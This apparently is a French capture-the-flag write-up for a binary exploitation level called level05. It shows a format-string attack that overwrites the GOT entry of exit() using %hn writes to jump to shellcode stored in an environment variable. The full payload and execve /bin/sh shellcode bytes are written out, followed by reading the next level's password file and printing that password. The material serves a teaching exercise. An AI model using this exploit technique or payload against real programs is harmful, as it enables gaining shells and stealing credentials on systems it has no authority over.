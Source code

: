 # level05

On va vouloir réecrire l'adresse d'`exit` dans le GOT:

<details>

<summary>Objdump of ./level05</summary>

```
$ objdump -R ./level05

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```
</details>

=> `exit()` address in GOT: `080497e0`

Cependant, notre input est mis en minuscule, cela peut affecter notre shellcode. \
On va passer notre shellcode par une variable d'environnement, \
Pour obtenir une adresse fiable (non affectée par gdb), on fait un main.c qu'on lance avec `env -i` :
```c
#include <stdlib.h>

int main(void) {
  printf("%p\n",getenv("payload"));
  // 0xffffdfb7
}
```

Ensuite, grâce à notre input mis dans `printf()` on va écrire l'adresse GOT \
Cependant l'adresse de notre variable d'env est tellement haute qu'on ne peut pas juste passer par `%...x` comme avant \
On va passer par `%hn`, cela nous permet d'écrire par batch de 4 octets, cela diminue considérablement le nombre de char à imprimer : \
Pour notre adresse `0xffffdfb7`, on va écrire `0xdfb7` chars, puis `0xffff` chars
```py
>>> 0xffffdfb7
4294959031
>>> 0xdfb7 - 8
57263
>>> 0xffff - 0xdfb7
8264
```

Ainsi notre payload est:
```bash
(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57263x" + "%10$hn" + "%8264x" + "%11$hn"'; cat) | env -i payload=$(python -c "print '\x90' * 32 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'") ./level05
```

Avec le shell donné évidemment ...
```bash
cat /home/users/level06/.pass
# h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
